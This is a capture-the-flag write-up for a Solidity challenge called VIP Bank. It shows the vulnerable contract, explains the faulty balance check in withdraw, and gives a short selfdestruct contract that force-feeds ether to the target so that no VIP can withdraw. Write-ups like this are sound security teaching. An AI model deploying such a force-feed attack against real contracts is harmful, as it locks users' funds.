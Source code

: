 # VIP Bank

## Challenge

We get a contract 

```
// SPDX-License-Identifier: MIT

pragma solidity 0.8.7;

contract VIP_Bank{
    address public manager;
    mapping(address => uint) public balances;
    mapping(address => bool) public VIP;
    uint public maxETH = 0.5 ether;

    constructor() {
        manager = msg.sender;
    }

    modifier onlyManager() {
        require(msg.sender == manager , "you are not manager");
        _;
    }

    modifier onlyVIP() {
        require(VIP[msg.sender] == true, "you are not our VIP customer");
        _;
    }

    function addVIP(address addr) public onlyManager {
        VIP[addr] = true;
    }

    function deposit() public payable onlyVIP {
        require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        balances[msg.sender] -= _amount;
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        require(success, "Withdraw Failed!");
    }

    function contractBalance() public view returns (uint){
        return address(this).balance;
    }
}
```

Our goal is to lock the VIP users balance.

## Solution

In this case the vulnerability is pretty easy to spot. We should check if the amount we want to withdraw is bigger than maxETH but insteas we are checking if the balance of our contract is bigger than that. That results in the case, that if the balance of our contract ever goes above 0.5 eth, noone is able to withdraw anything anymore.

We should intentionally be protected against this by setting the deposit function to VIPOnly. nevertheless we can force feed solidity contracts using selfdestruct. I just used a simple template contract for force feeding:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Forced{
    constructor () public payable {
        selfdestruct(0x570F2d712F9247d8eeaC3bf9ef1300b1b29cF480);
    }
}
```

After this we are not able to withdraw any money anymore
